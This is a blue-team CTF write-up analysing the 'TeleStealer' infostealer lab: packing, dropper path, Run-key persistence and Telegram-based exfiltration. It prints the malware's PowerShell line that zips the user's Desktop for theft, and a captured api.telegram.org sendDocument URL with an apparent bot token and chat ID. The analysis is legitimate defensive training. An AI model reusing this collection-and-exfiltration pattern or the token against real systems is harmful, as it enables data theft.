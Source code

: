 # TeleStealer Lab
----

![alt text](image.png)

Practice lab: [here](https://cyberdefenders.org/blueteam-ctf-challenges/telestealer/)

---

## Lab Description
At the company, our network team noticed a big increase in the network activity on one of our computers in the last few days. After looking into it, We found out that an employee had downloaded an untrusted software, but they weren't sure what it was doing. We need you to investigate carefully and find out what it do.

---
## Analyzing

**Q1: Malicious software frequently employs diverse methods to hide its presence and avoid detection. What packing tool was utilized to obfuscate this malware?**

![alt text](image-1.png)

> **UPX**

**Q2: Since the malware author used multiple techniques to hide its functions, where does the malware place the second stage?**

![alt text](image-2.png)

> **C:\Users\Administrator\AppData\Roaming\Dropper**

**Q3: Looking into how the malware persist on the machine, what's the path of the registry key it uses to do this?**

![alt text](image-3.png)

> **HKCU\Software\Microsoft\Windows\CurrentVersion\Run**

**Q4: We've noticed unusual network traffic in recent days since the discovery of the malware. We need to determine what data it might have sent out. What's the path of the exfiltrated data?**

3  connectivity of malicious process (2 reconnect - 1 disconnect)

![alt text](image-4.png)

Time of connect is: 10:19:09.xxxxx. So i will investigate operation before this time.

![alt text](image-5.png)

![alt text](image-6.png)

```powershell
Get-ChildItem -Path C:\Users\Administrator\Desktop -Recurse -File | ForEach-Object { try { Compress-Archive -Path $_.FullName -DestinationPath C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip -Update -ErrorAction Stop } catch {} }
```

It compress C:\Users\Administrator\Desktop into Archive.zip file and send it throught tcp connection.

> **C:\Users\Administrator\Desktop**

**Q5: You've verified that the malware is gathering sensitive data from compromised machines. It mainly uses a separate communication channel to send out the data. What is the full domain the malware use to exfiltrate the data?**

Using filter `ip.dst == 149.154.167.220` in wireshark to capture Network activity but no useful result for me. using Ip Lookup to find domain then I received:

![alt text](image-7.png)

I guess this is harm **telegram bot** using api.telegram.org

> **api.telegram.org**

**Q6: Once the channel is recognized, the next step is to determine who is receiving the exfiltrated data. Utilizing Python and the hosts file, can you determine the username of the recipient?**

This question, you must be config host in **C:\Windows\System32\drivers\etc\host** same with fakenet to test through localhost. 
```
# localhost name resolution is handled within DNS itself.
	127.0.0.1       api.telegram.org
#	::1             localhost

```

Such as:

![alt text](image-8.png)

Now, if you run malicious file, it will make request same curl action into api.telegram.org and after it also make request localhost.

![alt text](image-9.png)

I received telegram api (url): `bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421`

> **bot6369451776**